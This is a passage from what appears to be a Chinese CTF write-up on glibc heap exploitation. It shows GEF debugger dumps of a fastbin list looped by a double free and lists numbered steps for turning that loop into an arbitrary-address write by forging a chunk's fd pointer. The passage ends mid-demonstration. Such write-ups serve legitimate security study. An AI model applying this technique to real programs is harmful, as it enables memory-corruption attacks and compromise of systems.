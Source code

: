 ```python
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x603420, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x603440, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x603420, size=0x20, flags=PREV_INUSE)  →  [loop detected]
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
───────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ─────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
────────────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ──────────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x /10gx  0x603410
0x603410:	0x0000000000000000	0x0000000000000021
0x603420:	0x0000000000603430	0x0000000000000000
0x603430:	0x0000000000000000	0x0000000000000021
0x603440:	0x0000000000603410	0x0000000000000000
0x603450:	0x0000000000000000	0x0000000000020bb1
```

我们发现fastbins这个链表出现了循环，于是我们有希望可以通过四次malloc实现任意地址写，咋做呢？假设我们要往目标地址写目标内容

1. 申请一个8字节paper，内容为目标地址-0x10
2. 申请一个8字节paper，内容随意
3. 申请一个8字节paper，内容随意
4. 申请一个8字节paper，内容为目标内容

原理是第一次申请的堆块的fd字段被我们改写，因为fastbin存在环，第三次申请时即把我们篡改的fd字段填写到了fastbin的链首，当第四次申请时，即申请到到改写的目标地址，malloc函数误将我们篡改的地址当做了一个堆块，我们尝试一下，我输入的目标地址为12345678（ascii），当我们完成第二步时：

```python
gef➤  heap chunks
Chunk(addr=0x603010, size=0x410, flags=PREV_INUSE)
    [0x0000000000603010     31 0a 33 34 35 36 37 38 0a 00 00 00 00 00 00 00    1.345678........]
Chunk(addr=0x603420, size=0x20, flags=PREV_INUSE)
    [0x0000000000603420     31 32 33 34 35 36 37 38 00 00 00 00 00 00 00 00    12345678........]
Chunk(addr=0x603440, size=0x20, flags=PREV_INUSE)
    [0x0000000000603440     31 00 60 00 00 00 00 00 00 00 00 00 00 00 00 00    1.`.............]
Chunk(addr=0x603460, size=0x20bb0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dd1b20 ──────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x603420, size=0x20, flags=PREV_INUSE)  ←  [Corrupted chunk at 0x3837363534333241]
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
```
